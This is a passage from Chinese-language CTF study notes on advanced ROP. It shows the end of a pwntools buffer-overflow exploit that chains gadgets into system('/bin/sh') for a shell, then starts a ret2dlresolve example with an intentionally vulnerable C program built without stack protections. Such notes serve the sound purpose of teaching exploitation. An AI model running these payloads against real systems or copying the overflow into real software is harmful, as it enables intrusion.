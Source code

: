 ```

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)

#pwnlib.gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload)
p.interactive()
```

# 高级ROP

## ret2dlresolve

### 例子

源码：

```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

编译：

```
gcc -fno-stack-protector -m32 -z norelro -no-pie resolve.c -o resolve32
```

gdb调试

```
$disass main
...
   0x08048564 <+101>:	lea    eax,[ebp-0x6c]
   0x08048567 <+104>:	push   eax
   00x08048568 <+105>:	call   0x8048390 <strlen@plt>
...
```
